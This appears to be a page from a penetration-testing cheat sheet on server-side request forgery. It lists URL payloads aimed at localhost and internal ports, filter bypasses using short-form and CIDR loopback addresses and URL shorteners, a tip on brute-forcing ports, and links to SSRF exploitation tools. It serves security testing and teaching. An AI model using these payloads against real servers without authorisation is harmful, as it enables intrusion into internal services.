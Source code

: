 # 🏂 SSRF

## SSRF Cheatsheet

### Using localhost

```
http://localhost:80
http://localhost:443
http://localhost:22
```

### Using 127.0.0.1

```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

### Using 0.0.0.0

```
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

### Filter Bypass

```
https://127.0.0.1/
https://localhost/
http://127.1/
```

### Bypass Localhost with CIDR

```
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using URL Shortners

```
https://free-url-shortener.rb.gy/

https://shorter.me/
```

### Brutefoce Ports

```
http://127.0.0.1:1337
```

{% hint style="info" %}
You can brute force the port field using burp intruder or any other tool
{% endhint %}





***

## Tools

* [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Automatic SSRF fuzzer and exploitation tool
* [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - Generates gopher link for exploiting SSRF and gaining RCE in various servers
* [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - Python based scanner to find potential SSRF parameters
* [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - Simple SSRF-testing sheriff written in Go
* [assetnote/surf](https://github.com/assetnote/surf) - Returns a list of viable SSRF candidates
* [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - A blazing-fast, thread-safe, straightforward and zero memory allocations tool to swiftly generate alternative IP(v4) address representations in Go.



***

## REFERENCES

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#tools)
* [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
* [https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)
* [https://shorter.me/](https://shorter.me/)
* [https://free-url-shortener.rb.gy/](https://free-url-shortener.rb.gy/)
